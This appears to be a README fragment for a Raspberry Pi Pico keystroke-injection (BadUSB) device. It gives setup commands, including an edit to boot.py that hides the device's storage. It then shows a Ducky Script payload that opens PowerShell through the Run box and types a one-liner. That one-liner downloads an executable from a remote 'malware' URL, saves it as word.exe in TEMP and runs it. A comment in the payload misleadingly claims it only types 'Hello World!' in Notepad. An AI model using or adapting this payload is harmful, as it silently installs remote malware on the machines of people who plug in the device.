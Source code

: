 ```bash
cp adafruit-circuitpython-raspberry_pi_pico-en_US-9.2.1.uf2 /path/to/RPI 
```

Wait for reboot

```bash
cp *.py /path/to/RPI
sed -i "s/noStorage\ \=\=\ False/noStorage\ \=\=\ True/g" /path/to/RPI/boot.py
cp payload.dd /path/to/RPI
```

```ducky
REM The next four lines open Notepad in Windows and type "Hello World!"
GUI r
STRING powershell
ENTER
DELAY 500
REM word.exe ;)
STRING $f="$env:TEMP\word.exe"; iwr "https://domain.tld/damd/malware/uri" -o $f; &$f
```

Check prankware repository <https://github.com/skylab-kulubu/seclendin>

